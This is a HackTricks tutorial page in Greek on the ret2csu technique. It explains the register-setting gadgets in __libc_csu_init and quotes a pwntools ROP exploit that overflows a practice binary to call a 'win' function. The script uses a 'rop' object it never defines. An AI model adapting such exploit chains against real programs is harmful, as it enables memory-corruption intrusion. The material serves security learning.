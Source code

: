 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**ret2csu** είναι μια τεχνική hacking που χρησιμοποιείται όταν προσπαθείτε να ελέγξετε ένα πρόγραμμα αλλά δεν μπορείτε να βρείτε τα **gadgets** που συνήθως χρησιμοποιείτε για να χειριστείτε τη συμπεριφορά του προγράμματος.&#x20;

Όταν ένα πρόγραμμα χρησιμοποιεί ορισμένες βιβλιοθήκες (όπως η libc), έχει κάποιες ενσωματωμένες λειτουργίες για τη διαχείριση του πώς διαφορετικά κομμάτια του προγράμματος επικοινωνούν μεταξύ τους. Μεταξύ αυτών των λειτουργιών υπάρχουν μερικοί κρυμμένοι θησαυροί που μπορούν να λειτουργήσουν ως τα χαμένα μας gadgets, ειδικά ένα που ονομάζεται `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

Στο `__libc_csu_init`, υπάρχουν δύο ακολουθίες εντολών (τα "μαγικά gadgets" μας) που ξεχωρίζουν:

1. Η πρώτη ακολουθία μας επιτρέπει να ρυθμίσουμε τιμές σε αρκετούς καταχωρητές (rbx, rbp, r12, r13, r14, r15). Αυτοί είναι σαν υποδοχές όπου μπορούμε να αποθηκεύσουμε αριθμούς ή διευθύνσεις που θέλουμε να χρησιμοποιήσουμε αργότερα.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Αυτή η συσκευή μας επιτρέπει να ελέγχουμε αυτούς τους καταχωρητές αποσύροντας τιμές από τη στοίβα σε αυτούς.

2. Η δεύτερη ακολουθία χρησιμοποιεί τις τιμές που έχουμε ρυθμίσει για να κάνουμε μερικά πράγματα:
* **Μετακίνηση συγκεκριμένων τιμών σε άλλους καταχωρητές**, προετοιμάζοντάς τους για να τους χρησιμοποιήσουμε ως παραμέτρους σε συναρτήσεις.
* **Εκτέλεση κλήσης σε μια τοποθεσία** που καθορίζεται προσθέτοντας τις τιμές σε r15 και rbx, και στη συνέχεια πολλαπλασιάζοντας το rbx με 8.
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## Παράδειγμα

Φανταστείτε ότι θέλετε να κάνετε μια syscall ή να καλέσετε μια συνάρτηση όπως το `write()`, αλλά χρειάζεστε συγκεκριμένες τιμές στους καταχωρητές `rdx` και `rsi` ως παραμέτρους. Συνήθως, θα ψάχνατε για gadgets που να ρυθμίζουν αυτούς τους καταχωρητές άμεσα, αλλά δεν μπορείτε να βρείτε κανένα.

Εδώ είναι που μπαίνει σε εφαρμογή το **ret2csu**:

1. **Ρύθμιση των Καταχωρητών**: Χρησιμοποιήστε το πρώτο μαγικό gadget για να βγάλετε τιμές από τη στοίβα και να τις τοποθετήσετε στους rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) και r15.
2. **Χρησιμοποιήστε το Δεύτερο Gadget**: Με αυτούς τους καταχωρητές ρυθμισμένους, χρησιμοποιείτε το δεύτερο gadget. Αυτό σας επιτρέπει να μεταφέρετε τις επιλεγμένες τιμές σας στους `rdx` και `rsi` (από r14 και r13, αντίστοιχα), προετοιμάζοντας τις παραμέτρους για μια κλήση συνάρτησης. Επιπλέον, ελέγχοντας το `r15` και το `rbx`, μπορείτε να κάνετε το πρόγραμμα να καλέσει μια συνάρτηση που βρίσκεται στη διεύθυνση που υπολογίζετε και τοποθετείτε στο `[r15 + rbx*8]`.

Έχετε ένα [**παράδειγμα που χρησιμοποιεί αυτή την τεχνική και το εξηγεί εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), και αυτή είναι η τελική εκμετάλλευση που χρησιμοποίησε:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Σημειώστε ότι η προηγούμενη εκμετάλλευση δεν προορίζεται για **`RCE`**, αλλά απλώς για να καλέσει μια συνάρτηση που ονομάζεται `win` (λαμβάνοντας τη διεύθυνση του `win` από το stdin καλώντας το gets στην αλυσίδα ROP και αποθηκεύοντάς την στο r15) με ένα τρίτο επιχείρημα με την τιμή `0xdeadbeefcafed00d`.
{% endhint %}

### Γιατί να μην χρησιμοποιήσετε απευθείας τη libc;

Συνήθως αυτές οι περιπτώσεις είναι επίσης ευάλωτες σε [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), αλλά μερικές φορές χρειάζεται να ελέγξετε περισσότερες παραμέτρους από αυτές που ελέγχονται εύκολα με τα gadgets που βρίσκετε απευθείας στη libc. Για παράδειγμα, η συνάρτηση `write()` απαιτεί τρεις παραμέτρους, και **η εύρεση gadgets για να ρυθμίσετε όλες αυτές απευθείας μπορεί να μην είναι δυνατή**.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
